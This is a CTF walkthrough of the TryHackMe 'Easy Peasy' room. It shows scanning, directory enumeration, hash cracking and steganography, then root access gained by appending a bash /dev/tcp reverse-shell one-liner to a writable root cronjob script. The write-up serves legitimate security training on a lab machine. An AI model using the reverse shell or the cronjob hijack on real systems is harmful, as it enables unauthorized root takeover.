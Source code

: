 ```yaml
---
layout: post
title: "Easy Peasy"
date: 2022-03-28
categories: [Tryhackme, Easy-THM]
tags: [nmap, cronjob, steganography, gobuster]
image: ../../assets/img/posts/EasyPeasy.png 

---
```


## Description

Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

|**Room**|[Easy Peasy](https://tryhackme.com/room/easypeasyctf)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[kral4](https://tryhackme.com/p/kral4)|

---

Let's deploy the machine and we'll start with scanning open ports quickly with rustscan,

```bash
rustscan -a 10.10.140.17
```

![image](https://user-images.githubusercontent.com/67465230/160327198-c5e36fe4-1109-4f4b-bfb7-63582f24c820.png)

we got 3 open ports, Let's scan them using nmap,

```bash
nmap -sV -sC -p80,6498,65524 10.10.140.17 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/160327203-050f16e4-2a00-4cfd-8622-3c324a75f440.png)

Scan result reveals that port 80 is running nginx server, port 6498 is running ssh service and port 65524 is running apache webserver. Let's enumerate port 80.

Visit http://10.10.140.17,

![image](https://user-images.githubusercontent.com/67465230/160327217-632a3cd1-cd2c-4ddf-82b8-654972341e86.png)

we got a nginx webserver page. But there is nothing much I can find so I decided to find hidden directories using dirsearch,

```bash
dirsearch -u http://10.10.140.17 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160327224-655f1a99-0807-4b33-acf3-5710e8dfa3ba.png)

we found robots.txt file and a **hidden** directory.

Visit http://10.10.140.17/hidden,

![image](https://user-images.githubusercontent.com/67465230/160327231-e46d02e8-9f5e-4432-a3f1-b748a7153d7c.png)

we got a background image. Enumerating result in nothing gains. Again, finding hidden directories,

```bash
dirsearch -u http://10.10.140.17/hidden -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160327236-e665c33b-8390-48b5-ba5c-6ae7ab6629c8.png)

we found the **whatever** directory.

Navigate to http://10.10.140.17/hidden/whatever and we got a blank page,

![image](https://user-images.githubusercontent.com/67465230/160327239-a8ce00a5-a612-4ab3-8e9e-4d6486fe98a6.png)

So checking its source code page reveals that there is a base64 encoded string.

We can decode this string using linux command,

```bash
echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/160327242-4b867846-6643-44c9-982e-7804dc237bdc.png)

we got the flag. With this, we completed enumeration of port 80. Now, begin enumeration of port 65524.

Visit http://10.10.14017:65524,

![image](https://user-images.githubusercontent.com/67465230/160327249-560d447a-8ad8-4ef7-89ee-e6b1c5fb50af.png)

we got default apache webpage. There is not much on page itself, unless, we look at its source code.

Looking at the source code,

![image](https://user-images.githubusercontent.com/67465230/160327256-96e27ae0-efa4-4d39-aecd-52dd4a717fbc.png)

we got a string is which is encoded with some ba....? 

Visit [CyberChef](https://gchq.github.io/CyberChef) to figure out who is the encoder of this string,

![image](https://user-images.githubusercontent.com/67465230/160327269-29af0bcd-5da1-4867-9cd3-bcbae4e79761.png)

after trying all the base encoders, base62 seems worked in decoding this string and result in name of hidden directory.

Now, finding hidden directories using dirsearch,

```bash
dirsearch -u http://10.10.140.17:65524/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160327272-5218eb6b-8fa5-45d9-b60c-6233ecc8588e.png)

we got robots.txt file.

Visit http://10.10.140.17:65524/robots.txt and we find a hash. So we can crack this hash on [md5hashing.net](https://md5hashing.net/hash/md5)

![image](https://user-images.githubusercontent.com/67465230/160327279-19aa1601-4b33-4438-853c-b8c9145a830f.png)
we got our flag.

There is also a flag hidden in the source code of the webpage of http://10.10.140.17:65524, we can extract it using, 

```bash
curl -s http://10.10.140.17:65524 | grep flag
```

![image](https://user-images.githubusercontent.com/67465230/160327285-a13a10a2-1cd8-4419-b7de-b22cc1e5d9e4.png)

we got our 3rd flag.

We got a hash of SHA-256 so we can crack it JTR,

```bash
john sha_256 --wordlist=easypeasy.txt --format=GOST
```

![image](https://user-images.githubusercontent.com/67465230/160327291-4cc01e33-7886-450e-af33-f547304141dc.png)

we got the password.

Navigating to http://10.10.140.17:65524/*****************/binarycodepixabay.jpg,

![image](https://user-images.githubusercontent.com/67465230/160401471-877913ec-2d39-4286-99e2-4860c4034df2.png)

we found an image which is binary numbers are shown.

We can use steghide tool to extract information from this image,

```bash
steghide extract -sf binarycodepixabay.jpg
```

![image](https://user-images.githubusercontent.com/67465230/160327304-fe92048c-e3ed-443f-988f-2254426870d7.png)

Data is extracted to secrettext.txt.

Reading the content of file show that this is the binary data,

![image](https://user-images.githubusercontent.com/67465230/160327312-4a141de9-b9b1-45a9-9a4f-b46c2632a30a.png)

We can decode this data on cyberchef,

![image](https://user-images.githubusercontent.com/67465230/160327315-4e702d76-ba76-410c-980d-84aea4664311.png)

we got our password.

Lets drop into the machine via ssh,

```bash
ssh boring@10.10.140.17 -p 6498
```

![image](https://user-images.githubusercontent.com/67465230/160327321-d334e6f6-6dc2-4db8-8e05-3e7323faf4db.png)

we got access as boring user.

We got our user flag,

![image](https://user-images.githubusercontent.com/67465230/160327327-580596dc-5484-4ac6-a65e-400e274eb907.png)

Reading flag and it says that our flag is rotated,

![image](https://user-images.githubusercontent.com/67465230/160327337-a62d42d7-9cb4-4fb1-a2bf-e2493b9ff394.png)

when decoded with ROT13,

![image](https://user-images.githubusercontent.com/67465230/160327342-db027d34-691f-4ddc-93ca-b66ece005404.png)

we got our user flag.

Now comes the privilege escalation part. Checking the content of `/etc/crontab` file,

![image](https://user-images.githubusercontent.com/67465230/160327350-d2e6e5c4-15a3-415f-9c3a-6a6a72d8df69.png)

there a bash script **.mysecretcronjob.sh** in **/var/www** directory.

Navigating to /var/www directory and listing content,

![image](https://user-images.githubusercontent.com/67465230/160327352-9cc237b4-c0aa-4660-9628-6f655cc33c7f.png)

found the script which is readable-writable-executable by user.

reading content of the script,

![image](https://user-images.githubusercontent.com/67465230/160327362-49447662-e6b1-4fd2-8c42-a1bd48f01a30.png)

we got the idea that this script will run as root.

So we can put our one-liner shell and start a netcat listener and when this script run by cronjobs, we will get system shell.

Now, start netcat listener using `nc -nvlp 4444` and put the one liner bash shell into script,

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.9.0.182/4444 <&1'" >> .mysecretcronjob.sh
```

Reading the content of script again,

![image](https://user-images.githubusercontent.com/67465230/160328283-d5dc50b2-645b-4e44-9496-d020bb235ad6.png)

Now, when cronjobs executes this script, we got a shell,

![image](https://user-images.githubusercontent.com/67465230/160327389-25aecbfc-22d5-4a7b-bc39-6f84c745826f.png)

we got root shell.

Navigate to root directory and we got root flag which is hidden,

![image](https://user-images.githubusercontent.com/67465230/160327456-3c992650-2ba9-47a6-95a1-b12d09b9e337.png)